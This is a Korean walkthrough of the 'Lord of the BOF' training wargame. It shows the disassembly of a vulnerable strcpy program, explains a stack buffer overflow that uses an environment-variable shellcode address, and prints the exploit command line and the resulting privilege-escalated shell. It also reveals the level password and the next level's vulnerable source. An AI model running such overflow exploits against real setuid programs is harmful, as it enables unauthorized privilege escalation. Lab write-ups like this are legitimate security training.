 ``` bash2
0x8048453 <main+35>:	add    %esp,4
0x8048456 <main+38>:	mov    %eax,DWORD PTR [%ebp+12]
0x8048459 <main+41>:	add    %eax,4
0x804845c <main+44>:	mov    %edx,DWORD PTR [%eax]
0x804845e <main+46>:	push   %edx
0x804845f <main+47>:	lea    %eax,[%ebp-256]
0x8048465 <main+53>:	push   %eax
0x8048466 <main+54>:	call   0x8048370 <strcpy>
0x804846b <main+59>:	add    %esp,8
0x804846e <main+62>:	lea    %eax,[%ebp-256]
0x8048474 <main+68>:	push   %eax
0x8048475 <main+69>:	push   0x80484ec
0x804847a <main+74>:	call   0x8048350 <printf>
0x804847f <main+79>:	add    %esp,8
0x8048482 <main+82>:	leave  
0x8048483 <main+83>:	ret  
```

buffer의 주소는 ebp-256인 것을 알 수 있다. 먼저 에그쉘을 실행시켜 환경변수에 쉘코드를 등록하고, 환경변수의 주소를 얻어온 뒤, 260바이트를 dummy 값으로 채우고 4바이트를 little endian에 맞춰 환경 변수의 주소로 넣어준다면 gremlin 권한의 쉘을 얻을 수 있다.


``` bash2
[gate@localhost gate]$ /tmp/eggshell/eggshell
[gate@localhost gate]$ ./gremli2
EGG addr : 0xbffffcc2
[gate@localhost gate]$ ./gremlin `python -c 'print "A"*260+"\xc2\xfc\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA참
bash$ id
uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
bash$ my-pass
euid = 501
hello bof world
```

# gremlin

password is hello bof world

### Problem

``` bash2
[gremlin@localhost gremlin]$ cat cobolt.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - cobolt
        - small buffer
*/

int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```
